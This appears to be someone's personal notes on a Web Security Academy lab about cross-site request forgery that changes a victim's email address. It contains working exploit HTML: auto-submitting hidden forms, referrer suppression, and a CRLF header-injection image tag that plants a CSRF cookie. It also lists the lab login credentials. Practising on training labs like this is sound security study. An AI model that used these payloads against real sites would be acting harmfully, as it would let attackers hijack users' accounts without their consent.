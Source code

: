 This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

#### Note

>The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

---

temp

```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
			<input type="hidden" name="csrf" value="CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU">
		</form>
		<img style="display:none;" src="https://bank.com/email/change/?search=hat%0d%0aSet-Cookie:%20csrfKey=<Attacker_CSRFKey_Cookie>" onerror="document.forms[0].submit()">
	</body>
</html>
```

Analysis:

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: no csrf token

Testing Referer header for CSRF attacks:
1. Remove the Referer header

I need to add in the meatadata for the referer:

```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>

    <!--NOTE: Since the Web Security Academy intoduced a defense in that does not allow iframes from different origins, the iframe needs to be removed.-->
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

![[IMG/Pasted image 20240924092929.png]]

```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

